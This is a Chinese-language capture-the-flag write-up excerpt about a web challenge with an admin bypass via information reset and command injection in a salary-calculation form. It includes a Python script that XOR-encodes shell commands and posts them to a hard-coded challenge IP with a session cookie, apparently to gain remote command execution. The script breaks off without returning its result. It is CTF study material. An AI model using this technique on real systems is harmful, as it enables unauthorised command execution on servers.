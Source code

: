 通过信息重置即可绕过成为管理员

![img](https://img.crzliang.cn/img/202406012237585.jpg)

![img](https://img.crzliang.cn/img/202406012237586.jpg)

在工资的年终奖分配计算那里存在命令执行

![img](https://img.crzliang.cn/img/202406012237587.jpg)

写一个脚本进行反弹shell的操作

```python
import requests
from bs4 import BeautifulSoup
from urllib.parse import urlencode
import os

def xor_encrypt(plaintext, key):
    key_ord = ord(key)

    ciphertext = ""
    for char in plaintext:
        char_ord = ord(char)
        xor_result = char_ord ^ key_ord

        xor_result_char = chr(xor_result)

        ciphertext += xor_result_char

    return ciphertext

def print_ones(plaintext_length):
    return "1" * plaintext_length

def main():
    plaintext = os.sys.argv[1]
    key = "1"  # 00110001 是字符 '1' 的ASCII码

    ciphertext = xor_encrypt(plaintext, key)
    ones = print_ones(len(plaintext))
    result = req(ciphertext, ones)
    lines = result.split("\n")[1:]
    print("cmd: " + plaintext)
    index = lines[0].find(plaintext)
    lines[0] = lines[0][index + len(plaintext) :]
    result = "\n".join(lines)
    print(result)

def req(basicSalary, performanceCoefficient):
    url = "http://101.200.138.180:60000/gongzi_iscc.php"

    payload = urlencode(
        {
            "basicSalary": basicSalary,
            "performanceCoefficient": performanceCoefficient,
            "calculate": "",
        }
    )
    cookies = {"PHPSESSID": "ko3ccuvbc3hla124vm57ge3b6u"}
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    req = requests.request("POST", url, data=payload, cookies=cookies, headers=headers)
    html = req.text
    soup = BeautifulSoup(html, "html.parser")
    result = soup.find("div", class_="result-box").text
```